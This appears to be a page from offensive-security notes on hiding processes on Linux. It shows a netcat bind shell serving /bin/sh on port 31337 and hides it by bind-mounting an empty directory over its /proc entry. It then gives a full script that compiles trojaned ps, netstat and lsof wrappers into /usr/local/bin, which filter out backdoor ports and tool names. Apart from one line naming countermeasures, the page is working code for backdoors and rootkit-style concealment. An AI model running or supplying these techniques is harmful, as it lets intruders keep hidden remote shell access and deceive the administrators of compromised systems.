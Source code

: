 # Hiding Processes

## Process Hiding Techniques

### Listening sockets, hiding from ps and lsof <a href="#hideprocesses" id="hideprocesses"></a>

```
mkdir /tmp/empty
/bin/nc.traditional -l -p 31337 -e /bin/sh &
ps aux | grep $!
sudo mount --bind /tmp/empty /proc/$!
ps aux | grep $!
```

#### Countermeasure:&#x20;

`netstat -tulpe` and checking `cat /proc/$$/mountinfo` for suspicious mounts over `/proc`

### Script:

Run the script to protect the backdoor from discovery through **ps**, **netstat** or **lsof**

```
#!/bin/bash

#netstat
#------------------------
touch /tmp/.netstat.c

cat <<EOF >> /tmp/.netstat.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/netstat \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.netstat.c -o /usr/local/bin/netstat

rm /tmp/.netstat.c


#ps
#------------------------
touch /tmp/.ps.c

cat <<EOF >> /tmp/.ps.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/ps \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.ps.c -o /usr/local/bin/ps

rm /tmp/.ps.c


#lsof
#------------------------
touch /tmp/.lsof.c

cat <<EOF >> /tmp/.lsof.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/usr/bin/lsof \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.lsof.c -o /usr/local/bin/lsof

rm /tmp/.lsof.c
```
